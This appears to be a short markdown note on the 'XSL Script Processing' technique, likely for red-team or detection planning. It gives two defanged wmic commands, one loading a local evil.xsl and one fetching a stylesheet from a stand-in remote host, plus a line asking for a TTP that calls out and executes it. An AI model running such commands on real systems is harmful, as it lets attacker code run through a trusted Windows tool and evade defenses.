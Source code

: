 ## XSL Script Processing


```
Local File: wmic process list /FORMAT:evil[.]xsl
Remote File: wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"
```

Create a TTP to call out and execut the stylesheet. 


